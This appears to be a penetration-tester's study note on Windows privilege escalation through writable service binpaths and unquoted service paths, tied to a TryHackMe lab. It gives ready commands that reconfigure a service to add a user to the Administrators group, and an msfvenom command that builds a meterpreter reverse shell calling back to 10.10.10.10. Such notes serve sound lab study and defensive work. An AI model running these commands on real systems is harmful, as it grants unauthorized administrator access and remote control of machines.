 # Escalation Path: Service Permissions (Paths)

### Escalation via Binary Paths

Find writable binpaths with PowerUp `Invoke-AllChecks` or using Sysinternals accesschk64.exe

`accesschk64.exe -wuvc Everyone *`

- `-w` Show write access only
- `-u` Suppress errors
- `-v` Verbose
- `-c` Display the service name
 
**PowerUp**  

![PowerUp](./pictures/binpath-powerup.png)

**accesschk64**  
  
![Accesschk](./pictures/binpath-accesschk64.png)

Run accesschk64.exe against any discovered services for more detail

`accesschk64.exe -wuvc servicename`

![daclsvc](./pictures/binpath-daclsvc-privs.png)

We can change the binpath with `sc config` to add a user to the Adminstrators localgroup then start the 
service. As this service runs as LocalSystem our user will be added to the group

`sc config daclsvc binpath= "net localgroup administrators user /add"`

`sc start daclsvc`

Starting the service gives an error but the user is added to the Administrators group

![Exploit](./pictures/binpath-daclsvc-exploit.png)

### Escalation via Unquoted Service Paths

If a service path is unquoted and contains spaces a malicious executable can be created to take advantage of 
how Windows processes the path.

For example, when looking for an exe at C:\Program Files\My Program\myprogram.exe it will check 
C:\Program.exe, C:\Program Files.exe, C:\Program Files\My.exe, C:\Program Files\My Program.exe, 
C:\Program Files\myprogram.exe

We can generate a malicious service executable with msfvenom and abuse the unquoted service path for 
unquotedsvc, C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 -f exe-service -o common.exe`

Upload the malicious executable to the target and place it in C:\Program Files\Unquoted Path Service

When we start the service, the meterpreter reverse shell will execute

### Challenge Overview

THM Steel Mountain - https://tryhackme.com/room/steelmountain
